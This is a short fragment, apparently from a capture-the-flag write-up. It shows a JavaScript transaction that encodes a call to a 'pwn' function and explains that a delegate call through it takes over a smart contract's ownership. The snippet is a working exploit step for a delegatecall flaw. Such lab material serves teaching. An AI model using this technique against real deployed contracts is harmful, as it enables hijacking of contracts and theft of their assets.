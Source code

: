 ```javascript
sendTransaction({ 
	from : player, 
	to : contract.address, 
	data : web3.eth.abi.encodeFunctionCall({
	    name: 'pwn',
	    type: 'function',
	    inputs: []
	}, [])
});
```

Delegate call the pwn function to change the contract's ownership.